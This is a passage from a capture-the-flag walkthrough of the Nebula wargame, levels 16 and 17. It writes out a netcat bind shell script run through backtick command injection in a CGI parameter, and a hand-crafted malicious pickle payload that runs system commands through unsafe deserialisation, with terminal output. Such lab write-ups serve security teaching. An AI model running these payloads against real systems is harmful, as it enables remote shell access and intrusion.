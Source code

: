 So taking advantage of this neat feature we create the file `MYSCRIPT` in /tm folder, and execute it with **/\*/SCRIPT** (all uppercase).  We need the traditional version of netcat, not the OpenBSD variant, to have access to execute (**-e**) feature. Putting everything together, we have: 
```bash
level16@nebula:~$ vim /tmp/SCRIPT:
#!/bin/sh
nc.traditional -l -p 4444 -e /bin/sh
level16@nebula:~$ chmod +x /tmp/SCRIPT
```

And to execute `getflag`:
```bash
~ nc nebula 1616
GET /index.cgi?username="`/*/SCRIPT`"&password=pass
 
~ nc 192.168.0.18 4444
id
uid=983(flag16) gid=983(flag16) groups=983(flag16)
getflag
You have successfully executed getflag on a target account
```

## Level 17
Level 17 deals with an interesting yet dangerous feature of Python: _**the ability to pickle (and unpickle) binary objects**_. The following vulnerable line unpickles an object from an unsanitized input read through a socket:
```python
line = skt.recv(1024)
obj = pickle.loads(line)
```
It is clearly mentioned in a big red warning on the [pickle module site](https://docs.python.org/3/library/pickle.html) that:
> The pickle module is not intended to be secure against erroneous or maliciously constructed data.  Never unpickle data received from an untrusted or unauthenticated source.

I've used two methods to construct a malicious pickled object and pass it to _`loads()`_ function.

### Method 1
Build a simple pickled objects that execute code when unpickled. Exactly what's needed here: 
```
$ touch ~/pickled
cos
system
(S'getflag > /tmp/out17'
tR.
```

And feed it to the vulnerable program:
```bash
$ cat pickled | nc localhost 10007
Accepted connection from 127.0.0.1:53001
^C
level17@nebula:~$ cat /tmp/out17
You have successfully executed getflag on a target account
```
